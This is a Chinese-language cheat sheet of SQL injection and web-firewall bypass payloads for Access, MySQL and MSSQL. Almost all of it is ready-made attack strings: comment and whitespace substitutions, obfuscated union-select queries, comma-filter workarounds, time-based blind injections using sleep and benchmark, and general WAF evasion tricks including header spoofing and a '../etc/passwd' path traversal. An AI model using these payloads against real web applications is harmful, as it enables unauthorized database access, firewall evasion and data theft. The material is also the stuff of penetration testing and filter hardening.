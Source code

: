   #### Access
	空格符
	%09、%0a、%0c、%0d、%16
  #### Mysql
	注释符
	#、/*...*/、--[空格] ...
	空格符
	[0x09,0x0a-0x0d,0x20,0xa0]
	特殊符号
	%a 换行符，可结合注释符使用%23%0a，%2d%2d%0a。
	%21  ！ 叹号
	%2b  +  加号
	%2d  -  减号
	%40  @  符号
	%7e   ~  波浪号
	Id=1 union select(1),user()
	Id=1 union /!12345select/1,user()
	Id=1 union select@1,user()
	Id=1 union select {x 1},user()
	Id=1 union select"1",user()
	Id=1 union select\N,user()
	Id=1 union select 1,user()`
	Id=1 union select 1,user()""
	Id=1 union select 1,user()A
	Id=1 union select 1,user()`b
	Id=1 union(select 1,(select/!schema_name/from information_schema.SCHEMATA limit 1,1))
	Id=1 union(select 1,(select{x schema_name}from information_schema.SCHEMATA limit 1,1))
	Id=1 union(select 1,(select(schema_name)from information_schema.SCHEMATA limit 1,1))
	浮点数
	Id= 1.0union select 1,user()
	Id= 1.union select 1,user()
	Id= 1E0union select 1,user()
	Id=\Nunion select 1,user()
	Id=1 unionselect user(),2.0from admin
	Id=1 union select user(),8e0from admin
	Id=1 union select user(),\Nfrom admin
	内联注释
	/*!UnIon12345SelEcT*/ 1,user()   //数字范围 1000-50540
	mysql黑魔法
	select{x username}from {x11 test.admin};
	函数
	截取
	Mid(version(),1,1)
	Substr(version(),1,1)
	Substring(version(),1,1)
	Lpad(version(),1,1)
	Rpad(version(),1,1)
	Left(version(),1)
	reverse(right(reverse(version()),1)) 
	连接
	concat(version(),'|',user());
	concat_ws('|',1,2,3)
	字符转换
	Ascii() Char() Hex() Unhex()
	过滤逗号
	127' UNION SELECT * FROM ((SELECT1)a JOIN (SELECT2)b JOIN (SELECT3)c JOIN (SELECT4)d JOIN (SELECT5)e)# 
	相当于 union select 1,2,3,4,5
	union select * from (select 1)a join(select{x schema_name} from information_schema.SCHEMATA limit 1,1)b
	limit 1 offset 0相当于limit 1,0
	mid(version() from 1 for 1)相当于Mid(version(),1,1)
	<>被过滤
	id=1 and ascii(substr(database(),0,1))>64
	比较符
	greatest(n1,n2,n3,等)函数返回输入参数(n1,n2,n3,等)的最大值
	id=1 and greatest(ascii(substr(database(),0,1)),64)=64
	函数构造
	sleep(5)/benchmark(10000000,SHA1(1))
	id=1 xor sleep%23%0a(5)
	id=1 xor sleep%2d%2d%0a(5)
	id=1 xor sleep([%20]5) 
	id=1 xor benchmark%0a(10000000,SHA1(1))
	id=1 xor sleep[空白字符](5)
	select{x[可填充字符]1}
  #### MSSQL
	注释符
	/*、--、;00%、/**/
	空格符
	[0x01-0x20][0x0a-0x0f][0x1a-0x-1f]
	特殊符号
	%3a 冒号
	id=1 union:select 1,2 from:admin
	id=1 union select+1,'2',db_name() from admin
	id=1 union select-1,'2',db_name() from admin
	id=1 union select.1,'2',db_name() from admin
	id=1 union select:1,'2',db_name() from admin
	id=1 union select~1,'2',db_name() from admin
	id=1%20union%20select%201,'2',db_name()%80from%20admin
	id=1 union select 1,'2',db_name+() from admin
	函数变形: db_name[空白字符]()
	浮点数
	id=1.1union select 1,'2',db_name()
	id=1e0union select 1,'2',db_name()
	运算符
	id=1-1union select '1',system_user,3 from admin
	id=1e-union select '1',system_user,3 from admin
	字符串截取函数
	Substring(@@version,1,1)
	Left(@@version,1)
	Right(@@version,1)
	charindex('test',db_name())
	字符串转换函数
	Ascii('a')=char(97) 括号之间可添加空格
  #### WAF
	同时提交GET和POST
	访问HTTP绕过对HTTPS的防护
	%00截断
	参数填充垃圾数据，缓冲区溢出
	X-FORWARDED-FOR伪造绕过
	静态文件/sql.php/1.js?id=1绕过
	白名单绕过，URL只要存在某字符就不会拦截
	/sql.php/admin.php?id=1
	/sql.php?a=/manage/&b=../etc/passwd
	/../../../manage/../sql.asp?id=2
	伪造User-agent绕过，可改为爬虫agent